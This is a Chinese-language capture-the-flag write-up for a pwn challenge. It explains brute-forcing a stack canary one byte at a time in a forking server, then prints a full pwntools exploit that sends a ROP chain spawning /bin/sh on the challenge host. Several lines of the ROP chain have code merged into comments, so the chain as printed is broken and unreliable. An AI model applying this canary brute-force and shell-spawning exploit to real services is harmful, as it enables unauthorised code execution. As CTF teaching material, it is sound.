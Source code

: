 ### 逐字节枚举 Canary

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68369c8758cb8da5c813b2c2.png)

有开启金丝雀

![](https://pic1.imgdb.cn/item/68369fa458cb8da5c813b3d7.png)

一直调用 `fork()` 函数，其实就是一直调用 `vuln()` 函数

![](https://pic1.imgdb.cn/item/68369c6f58cb8da5c813b2a2.png)

明显存在栈溢出

![](https://pic1.imgdb.cn/item/68369f4258cb8da5c813b3c4.png)

确定溢出大小

![](https://pic1.imgdb.cn/item/68369f7458cb8da5c813b3d1.png)

因为 `fork()` 之后的 `canary` 是不变的，所以可以考虑爆破

```python
# 初始 canary = b'\x00'（Canary 最高字节固定为 0）
canary = b'\x00'

# 垃圾数据
padding = b'a' * (0x110 - 0x8)

# 外层 7 次循环依次恢复剩余 7 字节
for i in range(7):
  # 内层枚举 0x00–0xFF
  for j in range(0x100):
    # 发送 padding + 已知的 canary 前缀 + 猜测字节
    payload = padding + canary + p8(j)
    p.sendafter(b'input:\n', payload)
    
    # 观察进程是否触发 "stack smashing detected" 异常
    strs = p.recvuntil(b'*** stack smashing detected ***', timeout=1)
    
    # 如果未触发，说明猜测字节正确，追加到 canary，继续下一个字节
    if (b'stack' not in strs):
      canary += p8(j)
      break
```

![](https://pic1.imgdb.cn/item/6836a4e758cb8da5c813de3c.png)

[完整 payload](https://www.cnblogs.com/mumuhhh/p/18214600)

```python
from pwn import *
from LibcSearcher import*
from struct import pack

p = remote('challenge.qsnctf.com',32000)
FILENAME = './pwn'
# p=process(FILENAME)
# elf=ELF(FILENAME)
# p=gdb.debug(FILENAME,'b* 0x08049422')
# gdb.attach(p,'b* 0x4011B9')

def sh():
# Padding goes here
  p = b''
  p += pack('<Q', 0x000000000040f23e) # pop rsi ; ret p += pack('<Q', 0x00000000004c10e0) # @ .data
  p += pack('<Q', 0x00000000004493d7) # pop rax ; ret p += b'/bin//sh'
  p += pack('<Q', 0x000000000047c4e5) # mov qword ptr [rsi], rax ; ret p += pack('<Q', 0x000000000040f23e) # pop rsi ; ret
  p += pack('<Q', 0x00000000004c10e8) # @ .data + 8
  p += pack('<Q', 0x00000000004437a0) # xor rax, rax ; ret
  p += pack('<Q', 0x000000000047c4e5) # mov qword ptr [rsi], rax ; ret p += pack('<Q', 0x00000000004018c2) # pop rdi ; ret
  p += pack('<Q', 0x00000000004c10e0) # @ .data
  p += pack('<Q', 0x000000000040f23e) # pop rsi ; ret p += pack('<Q', 0x00000000004c10e8) # @ .data + 8
  p += pack('<Q', 0x00000000004017cf) # pop rdx ; ret p += pack('<Q', 0x00000000004c10e8) # @ .data + 8
  p += pack('<Q', 0x00000000004493d7) # p += p64(59)
  p += pack('<Q', 0x00000000004012d3) # syscall
  return p
  
myrop = sh()
print(hex(len(myrop)))

canary = b'\x00'
padding = b'a' * (0x110-0x8) 

for i in range(7):
  for j in range(0x100): 
    try:
      payload = padding + canary + p8(j)
      p.sendafter(b'input:\n',payload)
      
      strs = p.recvuntil(b'*** stack smashing detected ***',timeout=1) 
      
      if(b'stack' not in strs):
        print(i+1,'--',hex(j)) 
        canary += p8(j)
        break 
    except:
      pass

# gdb.attach(p,'b* 0x401DA3')
print('down----')

payload = padding + canary + p64(0xdeadbeef) + myrop
print(hex(len(payload)))

p.recvuntil('please input:')
p.sendline(payload)
p.interactive()
```

